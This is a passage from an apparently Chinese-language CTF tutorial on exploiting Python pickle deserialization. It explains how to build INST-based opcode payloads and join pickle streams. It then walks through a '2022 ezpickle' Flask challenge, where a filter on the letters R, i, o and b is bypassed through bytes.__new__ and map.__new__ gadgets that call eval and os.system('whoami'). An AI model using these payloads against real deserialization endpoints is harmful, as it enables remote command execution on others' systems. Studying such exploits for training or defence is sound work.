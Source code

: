- 其中，python原文件中包含：

```python
class Animal:

    def __init__(self, name, category):
        self.name = name
        self.category = category
```

- 也可以先实例化再赋值：

```python
animal = INST('__main__', 'Animal')
animal.name='1'
animal.category='2'
return animal
```

#### 手动辅助

- 拼接opcode：将第一个pickle流结尾表示结束的`.`去掉，两者拼接起来即可。
- 建立普通的类时，可以先pickle.dumps，再拼接至payload。

0x06 实战
=======

**美团2022 ezpickle**

```python
@app.route('/admin')
def admin():
    if session.get('user') != "admin":
        return f""
    else:
        try:
            a = base64.b64decode(session.get('ser_data')).replace(b"builtin", b"BuIltIn").replace(b"os", b"Os").replace(b"bytes", b"Bytes")
            if b'R' in a or b'i' in a or b'o' in a or b'b' in a:
                raise pickle.UnpicklingError("R i o b is forbidden")
            pickle.loads(base64.b64decode(session.get('ser_data')))
            return "ok"
        except:
            return "error!"
```

题目过滤了 Riob 这四个字母

考虑使用

```python
import os
bytes.__new__(bytes,map.__new__(map,eval,['print(11111)']))
#11111
bytes.__new__(bytes,map.__new__(map,os.system,['whoami']))
bytes.__new__(bytes,map.__new__(map,os.system,('whoami',)) #map的第二个参数只要是可迭代对象就可以了
#laptop-j0acdp41\jackbin
```
